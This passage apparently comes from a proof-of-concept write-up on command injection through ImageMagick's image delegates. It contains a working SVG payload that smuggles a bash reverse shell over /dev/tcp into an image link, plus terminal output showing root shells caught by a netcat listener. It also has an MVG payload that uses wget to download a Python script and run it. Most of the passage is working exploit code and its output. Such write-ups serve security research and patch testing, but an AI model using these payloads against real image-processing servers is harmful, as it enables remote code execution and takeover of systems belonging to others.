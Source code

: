 While over on the remote netcat listener:

    root@kali:~# nc -l -p 443
    uname -a
    Linux kali 4.19.0-kali4-amd64 #1 SMP Debian 4.19.28-2kali1 (2019-03-18) x86_64 GNU/Linux
    whoami
    root



### Bash reverse shell with an SVG

    <?xml version="1.0" standalone="no"?> 
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" 
    "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"> 
    <svg width="640px" height="480px" version="1.1" 
    xmlns="http://www.w3.org/2000/svg" xmlns:xlink= 
    "http://www.w3.org/1999/xlink"> 
    <image xlink:href="https://deadbeef.org/nop.jpg&quot;|bash -i &gt;&amp; /dev/tcp/127.0.0.1/443 0&gt;&amp;&quot;1" x="0" y="0" height="640px" width="480px"/> 
    </svg>

Run it:

    root@kali:~/git/PoCs# $CONVERT shell.svg out.png
    ^C    <------ netcat connection
    convert: delegate failed `"rsvg-convert" -o "%o" "%i"' @ error/delegate.c/InvokeDelegate/1332.
    convert: unable to open image `/tmp/magick-2120p5S-EVdwLpBN': No such file or directory @ error/blob.c/OpenBlob/2702.
    convert: unable to open file `/tmp/magick-2120p5S-EVdwLpBN': No such file or directory @ error/constitute.c/ReadImage/540.
    convert: no images defined `out.png' @ error/convert.c/ConvertImageCommand/3241.


While over on the remote netcat listener:

    root@kali:~# nc -l -p 443
    uname -a
    Linux kali 4.19.0-kali4-amd64 #1 SMP Debian 4.19.28-2kali1 (2019-03-18) x86_64 GNU/Linux
    date
    Sun 29 Sep 2019 04:07:46 PM AEST



### Python reverse shell with MVG


This time another MVG based payload, but leveraging python which needs to be on the vulnerable host.

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://deadbeef.io/n0p.jpg"|wget http://127.0.0.1/x.py -o /tmp/x.py && python /tmp/x.py")'
    pop graphic-context

The payload will download a python script using wget from a known host, and executes the script.
